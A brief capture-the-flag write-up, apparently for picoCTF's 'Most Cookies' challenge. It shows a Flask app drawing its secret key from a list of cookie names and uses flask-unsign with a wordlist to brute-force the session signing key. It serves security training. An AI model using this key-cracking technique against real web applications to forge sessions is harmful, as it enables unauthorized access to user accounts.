 # More cookies

![Alt text](image-5.png)

![Alt text](image-6.png)
 We can see the auth name in the cookies. After not knowing what to do for way too long, I found that flask session cookies have some sort of hash that is encrypted. 
 In the source code I also found something interesting
```
ookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
So the secret is a random choice among these cookie names. Hre's the cookie I got from website for the session auth
```
"eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZU0LSg.piJLWfRGga19Fpl--DPlZ90xlYw"

```
As they are choosing a random cookie to from a list to I made my own word list of the cookies and bruteforced it.

```
$ flask-unsign --unsign --server 'http://mercury.picoctf.net:65344/' --wordlist wordlist.txt
```

![Alt text](image-7.png)

Hurray!!